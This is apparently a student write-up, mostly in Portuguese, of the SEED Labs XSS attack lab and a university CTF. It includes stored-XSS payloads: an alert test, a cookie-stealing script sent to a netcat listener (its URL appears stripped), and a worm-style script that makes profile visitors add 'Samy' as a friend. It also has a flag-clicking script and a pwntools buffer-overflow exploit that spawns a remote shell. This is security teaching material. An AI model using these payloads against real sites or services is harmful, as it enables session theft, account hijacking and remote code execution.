



# SeedLabs: Cross-Site Scripting (XSS) Attack Lab
## Task 1

```html
<script>alert('XSS');</script>
```

Nesta tarefa, foi embebido no nosso perfil o programa de JavaScript apresentado acima, na seccção "Brief Description" e, após sermos redirecionados para o nosso perfil, obtivemos o seguinte resultado:



## Task 2

Esta tarefa foi similar à anterior, obtendo o seguinte resultado:



## Task 3

Começamos por utilizar `nc -lknv 5555` para escutar a conecção na porta especificada, imprimindo o que é enviado pelo client.

A seguir, inserimos o script:

```html
<script>document.write('');
</script>
```

Agora, quando o utilizador visita o nosso perfil, um pedido GET é enviado para o nosso servidor, com as cookies da vítima.



## Task 4

First, we inspected the format of the request that allows the user to add a friend. After using the Firefox tool to do that, we intercepted the following request.
Antes de mais, inspecionamos o formato do pedido que permite ao utilizador adicionar um amigo. De seguida, usamos a ferramenta de inspeção de pedidos do Firefox, de modo a intercetar o pedido.

```
GET /action/friends/add?friend=57&__elgg_ts=1641554274&__elgg_token=5c8f4CYIJ_cmq-XmSuwPvQ&__elgg_ts=1641554274&__elgg_token=5c8f4CYIJ_cmq-XmSuwPvQ HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/boby
Cookie: Elgg=9ecmkv0nrtj18fj28cipgukpgf
```

Após isso, completamos o template fornecido:

O id de utilizador de Samy foi obtido inspecionando um pedido de amizade enviado por outro user para ele.

As variáveis ts e token estão variáveis javascript que permitem ao utilizador identificar a autenticidade do pedido.

```html
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var samyId=59;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

//Construct the HTTP request to add Samy as a friend.
var sendurl=`/action/friends/add?friend=${samyId}&__elgg_ts=${ts}&__elgg_token=${token}`;

//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Após escrever o script na secção "About Me" do perfil do utilizador Samy, qualquer outro utilizador que visite o seu perfil tornar-se-á seu amigo automáticamente.

But most of all, samy is my hero.

# CTF

**URL**: ctf-fsi.fe.up.pt

**Port**: 5002/4001

## Desafio 1

De modo a obter a flag, enviamos a seguinte mensagem, de modo que, quando o admin abrir a página com o pedido, este script seja executado, clicando no botão para enviar a flag.

```html
<script>document.getElementById('giveflag').click()</script>
```

## Desafio 2

Neste desafio, criamos um script de modo a colocar shellcode no buffer vulnerável ao exploit de Buffer Overflow, alterando o endereço de retorno para o início do buffer.

```py
#!/usr/bin/python3
from pwn import *

LOCAL = False

if LOCAL:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4001)


shellcode = asm(shellcraft.sh())

r.recvuntil(b"buffer is")
buffer_line = r.recvline().strip()[:-1]
encoded_address = p32(int(buffer_line,16))

size = 108
payload = shellcode.ljust(size, b'A') + encoded_address

r.sendline(payload)
r.interactive()
```